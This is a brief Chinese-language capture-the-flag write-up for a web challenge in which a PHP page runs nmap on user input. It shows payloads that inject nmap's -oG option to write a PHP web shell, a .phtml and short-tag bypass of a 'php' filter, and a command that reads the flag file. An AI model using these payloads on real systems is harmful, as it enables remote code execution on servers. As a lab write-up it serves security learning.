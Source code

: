 ![[Pasted image 20221127120248.png]]

---
首页长这样

![[Pasted image 20221127120317.png]]

---
尝试判断是否可注入（废话，显然可以
```php
localhost' #
```

![[Pasted image 20221127121511.png]]

```php
' -oG shell.php <?php eval($_GET["cmd"]);?> #
```
> Hacker...

emmm，大意了

应该是把php过滤掉了

```php
' -oG shell.phtml <? eval($_GET["cmd"]);?> #
```
> Host maybe down

```php
/shell.phtml?cmd=system('cat /flag');
```
> \# Nmap 6.47 scan initiated Sun Nov 27 04:26:32 2022 as: nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/824ef -oG shell.phtml \ flag{b868b5bd-41f0-4933-97f5-930bd42b73a3}
> \#'
> \# Nmap done at Sun Nov 27 04:26:33 2022 -- 0 IP addresses (0 hosts up) scanned in 0.90 seconds

氵就完事儿了.jpg

#Web #RCE #PHP #bypass #nmap